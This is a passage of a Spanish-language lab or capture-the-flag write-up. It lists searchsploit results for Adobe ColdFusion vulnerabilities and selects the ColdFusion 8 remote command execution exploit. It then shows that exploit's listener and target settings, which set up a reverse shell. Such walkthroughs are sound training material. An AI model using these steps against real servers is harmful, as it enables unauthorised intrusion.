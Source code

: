 ```bash
Adobe ColdFusion 2018 - Arbitrary File Upload                                                              | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting                                          | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                                         | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)                                                        | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentication Bypass                                                  | windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasploit)                                     | multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                                            | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                                  | multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site Scripting               | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query String Cross-Site Scri | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-Site Scripting     | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Site Scripting      | cfm/webapps/33168.txt
----------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Excelente, tenemos un **RCE**, vamos a analizarlo.

<br>

<h3 id="PruebaExp">Probando Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)</h3>

Copiemos el Exploit en nuestro espacio de trabajo:
```bash
searchsploit -x cfm/webapps/50057.py        
  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
    Codes: CVE-2009-2265
 Verified: False
File Type: Python script, ASCII text executable
```

Analizándo el Exploit, nos pide los siguientes datos:
```bash
if __name__ == '__main__':
    # Define some information
    lhost = 'IP_random'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
    filename = uuid.uuid4().hex
```
